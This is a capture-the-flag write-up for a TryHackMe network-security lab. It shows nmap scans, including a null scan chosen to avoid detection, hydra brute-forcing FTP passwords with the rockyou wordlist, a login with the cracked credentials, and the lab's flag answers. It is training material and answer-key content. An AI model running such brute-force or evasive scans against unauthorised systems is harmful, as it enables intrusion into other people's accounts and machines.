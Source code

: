 # Net-Sec-Challenge-Writeup
An updated writeup for the net sec challenge lab do try hack me, good studies

# All Questions
![image](https://github.com/user-attachments/assets/3c366a6e-9c18-4c07-899c-346b1d6d24db)

# WriteUp

Use nmap -p- -v -A machine_ip to see all the details needed for the questions 1-6

1. What is the highest port number being open less than 10,000?

R = 8080
![image](https://github.com/user-attachments/assets/b0b1307f-3198-442e-916c-ce39a8ba20f0)

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

R=10021
![image](https://github.com/user-attachments/assets/266226b8-a2e5-44d3-8fce-5e9de0d4910f)

3. How many TCP ports are open?

R= 6, just count the ports.

4. What is the flag hidden in the HTTP server header?

R= THM{web_server_25352}
![image](https://github.com/user-attachments/assets/bb62dcb2-0498-47be-b111-a06df5f7f1d7)

5. What is the flag hidden in the SSH server header?

R= THM{946219583339}
![image](https://github.com/user-attachments/assets/4d1a15d4-59e1-4ce7-ba61-3a34bde95865)

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

R= vsftpd 3.0.5
![image](https://github.com/user-attachments/assets/edbb00d1-43ea-4037-8655-a6a81c01709d)

7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: jordan
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: andrea

![image](https://github.com/user-attachments/assets/902f0a67-e3e4-44cb-bc21-c5563311a160)

$ ftp machine_ip 10021 
user: quinn
password: andrea

connect via ftp

![image](https://github.com/user-attachments/assets/bbd53333-8c6b-41a5-a4e9-5a46678d918f)

ftp> ls
ftp> get ftp_flag.txt
With this we get the flag

![image](https://github.com/user-attachments/assets/9a044d0a-620e-41aa-be51-d255f9a6cccf)

ftp> quit
$ cat ftp_flag.txt

![image](https://github.com/user-attachments/assets/939ea7e5-a1e0-4396-9c68-910e76d13706)

R= THM{321452667098}

8. Browsing to `http://10.10.209.57:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![image](https://github.com/user-attachments/assets/e05a9daf-e239-4c15-88fb-0f5926a0aa31)

USE sudo nmap -sN 10.10.209.57

![image](https://github.com/user-attachments/assets/a8e11ffe-0588-437b-8acf-93fd67302ad5)

use null scan for less detection

![image](https://github.com/user-attachments/assets/5ad99a9c-9aaf-4163-b15a-075672777b7f)

R= THM{f7443f99}

Good Learning!
